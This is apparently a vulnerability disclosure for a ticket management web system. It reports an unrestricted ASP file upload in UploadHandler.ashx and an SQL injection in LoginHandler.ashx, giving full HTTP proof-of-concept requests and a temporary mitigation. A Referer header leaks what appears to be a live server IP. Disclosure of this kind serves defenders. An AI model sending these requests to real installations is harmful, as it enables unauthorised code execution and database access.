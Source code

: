 ## File upload


- Vulnerability Name: Ticket Management System Standard Version - File Upload Vulnerability

- Vulnerabilities URL:/WiChat/ashx/UploadHandler. ashx

- Vulnerability description: UploadHandler does not filter uploaded files in any way

- Temporary solution: Set the permission to disable script running on the folder UploadImage



- Vulnerability related code

!(https://github.com/shigophilo/shigophilo.github.io/blob/main/_posts/imgs/2024-08-12-%E7%A5%A8%E5%8A%A1%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F%E6%A0%87%E5%87%86%E7%89%88-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E/image-20240812124039627.png?raw=true)

- Method for reproducing vulnerabilities

![image-20240812124118510](imgs/2024-08-12-票务管理系统标准版-文件上传漏洞/image-20240812124118510.png)

- visit url/UploadImage/1.asp

![image-20240812124205940](imgs/2024-08-12-票务管理系统标准版-文件上传漏洞/image-20240812124205940.png)

- POC

```
GET /WeChat/ashx/UploadHandler.ashx HTTP/2
Host: host
Cookie: ASP.NET_SessionId=uuigwbm4v4b30ykuja5c2xsn; SESSIONID=VAEAADILWiMFEnkxjy0Io/Rwsst9uE3mxlZfIc8i6UI=&VAEAAPWddZzuRvJK3ALg8A==&HUAWEI &langfrombrows=zh-CN,&copyright=2014-2022; ASPSESSIONIDSGDRADAS=DPFDAIDBPACHPBHNFJOHLILC
Cache-Control: max-age=0
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108", "Google Chrome";v="108"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://117.145.188.82:8010/WeChat/ashx/
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7yyQ5XLHOn6WZ6MT
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Length: 7483

------WebKitFormBoundary7yyQ5XLHOn6WZ6MT
Content-Disposition: form-data; name="file"; filename="1.asp"
Content-Type: image/jpeg

<% 
    Response.Write "Hello, World!"
%>
------WebKitFormBoundary7yyQ5XLHOn6WZ6MT--
```

## Sql Inject

- parameter : key

```
POST /LoginHandler.ashx HTTP/2
Host: host
Cookie: ASP.NET_SessionId=lxzevhb5yxdj0nqa43tz3qat
Content-Length: 65
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108", "Google Chrome";v="108"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Origin: host
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: host
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

Method=GetSystemConfig&class.module.classLoader.URLs[a0]=&key=w
```

![image-20240812140603223](imgs/zhongcheng_kexin_ticketing_management_platform/image-20240812140603223.png)